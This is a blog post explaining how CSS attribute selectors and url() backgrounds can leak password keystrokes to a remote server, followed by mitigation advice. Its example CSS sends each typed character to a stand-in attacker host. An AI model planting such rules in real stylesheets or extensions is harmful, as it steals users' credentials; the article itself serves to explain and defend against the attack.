 ```yaml
---
title: CSS Keylogging and how to Mitigate it
tags:
  - Security
  - Web
  - CSS
excerpt: >-
  Clever usage of CSS allows attackers to exfiltrate keystrokes to an
  attacker-controller server. This article examines how the attack works and how
  to migitate against it.
keywords:
  - Security
  - Web
  - Keylogging
  - Data Exfiltration
date: '2018-03-01 08:28:44'
---
```



I recently stumbled upon a fairly creative [proof of concept][1] for (ab)using
Cascading Style Sheets to record a user's keystrokes off a website. The sample
code contains a server and a sample Chrome extension that forwards the content of `password`
type input fields in a webpage. The sample itself is missing a few things to be
usable by a bad guy, but all the ideas and ingredients are there, ripe for the
picking.

This attack is especially dangerous because of the fact that it can run in any
browser extension that has access to the HTML of your pages. The problem is
amplified because most extensions that provide something useful will usually
require access to one or more websites. A very bad and yet popular example of
that are extensions that inject CSS for custom styling of webpages. These
extensions provide something very attractive to users, and it is very easy to
forget that whenever you install a *user*-style, you're running user-submitted
content in your browser.

Websites that let users customize their personal page with a CSS theme, like
Reddit (sub-reddit themes), can trick you into signing-in to reddit after a visit to
their page, thus sniffing your password as you type it.

I'll first explain the concepts behind the attack and then show a simplified
example of what the attack code might look like. Once that is out of the way,
I will talk about possible mitigations for the attack.

[1]: https://github.com/maxchehab/CSS-Keylogging


## How the Attack Works

The attack abuses a few CSS concepts which, by themselves, are completely
harmless, but combined in a creative fashion, pave the way towards keylogging:

*Attribute Selectors* make it possible to target a specific node in the DOM tree
based on an attribute and its value. This is useful for instance, when
attempting to apply a style rule to all input fields of a same type:
`input[type="radio"]`. There are multiple special comparator such as the `~=`
and `$=` [comparators][2]. The latter has the following interesting documentation:

> Represents an element with an attribute name of attr whose value is suffixed (followed) by value.


[2]: https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors

*Selector Chaining* is the concept of chaining multiple selectors to create a
more specific style rule. A good chaining example is the rule that says

``` css
#main input[type="radio"].valid {
    /* ... */
}
```

which targets an input of type `radio` which has the class `valid` and is inside
a node with an id of `main`.

*`url()` Value Keywords* which make it possible to reference static resources.
In any property that accepts an image as a value, as is the case with the
properties `background` and `background-image`, for example.

----

If the attack is not becoming clear yet, consider the following CSS snippet:

``` css
input[type="password"][value$="a"] {
  background: url("somewhere.png");
}
```

This rule says the following:

> For all inputs of type `password` that have a value ending in `a`, set the
> background to the image `somewhere.png`

All that one needs to do now is have one CSS rule per valid password character.
Fortunately, for most websites, this is limited to ASCII printable characters,
and as such all an attacker needs is 127 rules. The attack is possible because
CSS does not restrict which URLs `background-image` has access to. More
concretely,

``` css
input[type="password"][value$="a"] {
  background: url("https://www.attacker.com/keylogger/strokes/a");
}

input[type="password"][value$="b"] {
  background: url("https://www.attacker.com/keylogger/strokes/b");
}

/* ... all other ASCII characters ... */
```

This is the gist of the attack. It can be made more elaborate by capturing all
input fields and, for instance, to record the username as well.

On the server, the requests do not have a lot of information, but time and
delta-time between requests, along with the request originating IP address can
be used and analyzed to reconstruct each field separately. Heuristics (or manual
human intervention) can then be used to recover usernames and passwords.


## Mitigation


The best way to *prevent* this problem would be at the server level with a concept
similar to [content security policy][3] that disallows any `url()` property from
getting sites outside of the trusted sources (e.g. `your-site.com` and
`cdn.your-site.com`)

Unfortunately, CSP itself cannot prevent the attack entirely since it does not
provide a way to block `url()` requests or `<link>` tags that include
user-controlled theme files.

The best ways to *avoid* being keylogged are as follows:

1. Do not use extensions that have the right to modify all pages. This should be
   the very first step taken in order to protect yourself. If the extension can
   modify any page, there is nothing that prevents it from injecting malicious
   CSS into the page.

2. If extensions are a necessity, make sure to disable them whenever you are
   about to do something sensitive like inputting credentials. Refreshing the
   page with the extension disabled will ensure that there is no extension-code
   loaded.

3. Avoid inputting sensitive information on pages that allow their users to
   customize the stylesheet, as you don't know what the CSS is doing.

4. Use a password manager that automatically sets the value of input fields for
   you. If the password manager is setting the value directly, and the website
   is keylogged, this will only leak the last character of your password to the
   attacker. If your passwords are unique per web-site (as they should) and
   sufficiently strong, this last character should not have too significant of
   an impact.

---

As things stand right now, there is no foolproof protection against CSS
keylogging, and it does not look like it will be landing any time soon. The best
thing to do is to be wary of what is running in your browser and to remember
that when running user controlled code, extra care must be taken, in the same
way extra care must be taken when downloading executables from untrusted
sources.

[3]: https://en.wikipedia.org/wiki/Content_Security_Policy
